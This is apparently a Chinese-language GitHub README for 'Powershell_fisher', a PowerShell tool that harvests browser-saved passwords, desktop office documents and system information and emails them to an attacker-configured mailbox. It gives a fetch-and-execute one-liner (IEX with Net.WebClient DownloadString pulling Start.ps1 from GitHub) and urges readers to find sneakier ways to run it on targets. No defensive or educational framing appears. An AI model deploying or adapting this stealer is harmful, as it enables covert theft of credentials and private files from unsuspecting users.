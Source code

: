 # Powershell_fisher
    利用powershell收集用户浏览器中保存的密码，桌面办公文件，电脑硬件软件信息。发送到指定邮件



### 一、 更改GetPass.ps1和Star.ps1更改如下内容为自己邮箱`邮箱需要开启smtp`
  ![images](http://ww1.sinaimg.cn/large/0060lm7Tgw1f668ie4c4tj30mj06zdh0.jpg)

### 二、 更改GetPas.ps1
  ![images](http://ww3.sinaimg.cn/large/0060lm7Tgw1f668noe6m4j30kf02gdgd.jpg)
  
### 三、 调用
  `powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/kalivim/Powershell_fisher/master/Start.ps1');`
  
> 调用只是提供思路,怎样更猥琐的去实现这条命令,就看大家的发挥了
